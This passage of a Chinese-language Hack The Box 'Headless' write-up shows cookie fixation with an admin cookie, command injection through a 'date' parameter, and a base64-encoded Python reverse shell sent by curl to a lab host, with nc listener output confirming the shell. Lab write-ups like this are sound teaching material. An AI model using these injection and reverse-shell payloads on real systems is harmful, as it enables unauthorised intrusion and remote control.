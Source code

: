 ### Cookie/会话固定攻击

再次访问`http://10.10.11.8:5000/dashboard`并拦截请求，可以发现Cookie值目前还是我们之前观察到的固定值。将这个Cookie值改为上面说的`ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`

![HTB-Headless-dashboard](HTB-Headless-dashboard.png)

转发请求后成功访问`/dashboard`页面，是一个生成报告的网页。点击`Generate Report`可以发现请求中发送了`date`参数。很有可能可以执行注入。

![HTB-Headless-dashboard2](HTB-Headless-dashboard2.png)

先看看正常情况下的网页响应：

![HTB-Headless-dashboard3](HTB-Headless-dashboard3.png)

### 参数污染PoC

接下来尝试一下注入。首先怀疑后台处理是命令行/bash脚本之类的（由于是linux），于是用分号截断，然后payload加上`id`看看响应：

![HTB-Headless-dashboard-poc](HTB-Headless-dashboard-poc.png)

成功回显命令`id`的结果（当前为dvir用户），说明`date`参数存在注入。

![HTB-Headless-dashboard-poc2](HTB-Headless-dashboard-poc2.png)

### 反弹shell

将payload改为`;echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjgiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJiYXNoIikn |base64 -d |bash`，其中base64部分是`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`的编码。  
*后来测试不用base64形式也可以。*

**简单exp：**
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Headless]
└─$ curl -XPOST http://10.10.11.8:5000/dashboard -H 'Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0' -d @payload.txt 
                                                                                    
┌──(kali㉿kalik)-[~/Lab/HTB/Headless]
└─$ cat payload.txt 
date=2023-09-15;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

发送后成功获取dvir用户的反弹shell：
```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.8] 36340
bash-5.2$ id
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

